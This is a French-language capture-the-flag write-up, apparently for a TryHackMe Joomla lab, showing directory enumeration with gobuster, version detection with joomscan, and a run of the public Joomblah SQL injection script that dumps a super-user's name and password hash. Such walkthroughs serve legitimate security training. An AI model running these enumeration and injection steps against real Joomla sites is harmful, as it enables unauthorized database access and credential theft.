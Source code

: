 ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.204.52 -o gobuster.txt 
```
On peut voir 2 résultats qui attirent l'oeil : **/README.txt** et **/Administrator**

Quand on ouvre le fichier "README.txt" on tombe la dessus :

```  Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history ```

On peut donc en déduire que la version est 3.7.0

Réponse 2 : **3.7.0**

On peut aussi passer par un outil, "joomscan"

```sudo apt install joomscan```
```
joomscan -u [IP_MACHINE]

[+] Detecting Joomla Version
[++] Joomla 3.7.0
```
Réponse 2 : ** 3.7.0**

*Instead of using SQLMap, why not use a python script!*

## What is Jonah's cracked password?

Comme indiqué ci dessus, sans passer par sqlmap, on va chercher d'autres exploits :

En cherchant un peu, on trouve ce script python :

[GitHub] https://github.com/XiphosResearch/exploits/tree/master/Joomblah

On le télécharge et on l'éxécute :

``` python joomblah.py http://10.10.204.52
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
Le script retrouve un super-user **jonah** et le **hash** de son mot de passe.

